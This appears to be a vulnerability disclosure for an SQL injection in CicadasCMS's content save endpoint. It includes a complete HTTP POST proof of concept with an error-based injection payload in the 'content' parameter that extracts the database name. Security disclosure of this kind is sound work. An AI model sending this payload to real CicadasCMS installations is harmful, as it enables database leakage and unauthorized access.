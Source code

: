 <img width="1377" height="810" alt="image" src="https://github.com/user-attachments/assets/2cee02a5-da26-4a6c-b7c3-032ab0dfdd6b" />### 💥 Vulnerability Report : SQL Injection in

------

**1. Product:**

- **Name:**  CicadasCMS
- **Version:** latest version
- **Repository:** https://gitee.com/westboy/CicadasCMS

------

**2. Vulnerability Type:**

- **Type:** SQL Injection (SQLi)

------

**3. Affected Component(s):**

- /content/save

------

**4. Attack Vector(s):**

Attackers can inject malicious SQL statements through the content parameter in the save interface. The backend directly obtains this parameter without input filtering or parameter precompilation, leading to SQL injection.

**5. Proof of Concept (PoC):**

```
POST /system/cms/content/save HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 751
Origin: http://localhost
Connection: close
Referer: http://localhost/system
Cookie: bjui_theme=blue; SESSION=f43bf728-f5bf-4110-9b1f-58cca099b88a
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

contentId=1249&userId=1&siteId=1&tableName=&status=0&title=%E4%B9%98%E7%9D%80%E6%AD%8C%E5%A3%B0%E7%9A%84%E7%BF%85%E8%86%80%E2%80%94%E2%80%94XXX%E5%B8%82%E9%9F%B3%E4%B9%90%E5%AE%B6%E5%8D%8F%E4%BC%9A%E6%96%87%E8%89%BA%E5%BF%97%E6%84%BF%E5%B0%8F%E5%88%86%E9%98%9F%E8%B5%B0%E8%BF%9B%E5%B8%82%E7%AC%AC%E5%9B%9B%E4%B8%AD%E5%AD%A6&keywords=XXX%E5%B8%82%E9%9F%B3%E4%B9%90%E5%AE%B6%E5%8D%8F%E4%BC%9A%E6%96%87%E8%89%BA%E5%BF%97%E6%84%BF%E5%B0%8F%E5%88%86%E9%98%9F%E8%B5%B0%E8%BF%9B%E5%B8%82%E7%AC%AC%E5%9B%9B%E4%B8%AD%E5%AD%A6&description=&categoryId=226&thumb=&url=&recommend=on&viewNum=242&author=%E9%83%AD%E5%B0%8F%E5%88%9A&tags=&content=' OR (SELECT EXTRACTVALUE(1,CONCAT(0x7e,(SELECT DATABASE()),0x7e))) OR '1&fujian=&laiyuan=XXX%E5%B8%82%E6%96%87%E8%81%94
```



If vulnerable, the response will contain an error message such as:


![Uploading 54f90a10de749eaef435217c6cd50ac3.png…]()




**6. Vulnerable Code Reference**

src/main/java/com/zhiliao/module/web/cms/ContentController.java

![](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030095204805.png)

src/main/java/com/zhiliao/module/web/cms/ContentController.java

![image-20251030100422988](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030100422988.png)





src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030100317828](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030100317828.png)

src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030095852738](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030095852738.png)

src/main/java/com/zhiliao/module/web/cms/service/impl/ContentServiceImpl.java

![image-20251030095811962](C:\Users\王小二\AppData\Roaming\Typora\typora-user-images\image-20251030095811962.png)



The above code receives the 'content' parameter input from the client and directly concatenates it into the SQL statement without any filtering or precompilation. Therefore, an attacker can inject SQL statements through the 'content' parameter, leading to an SQL injection vulnerability.



**7. Impact:**

- Data leakage (e.g., database users, names)
- Potential unauthorized access
- Escalation to full compromise depending on DBMS



**8. References:**


https://gitee.com/westboy/CicadasCMS
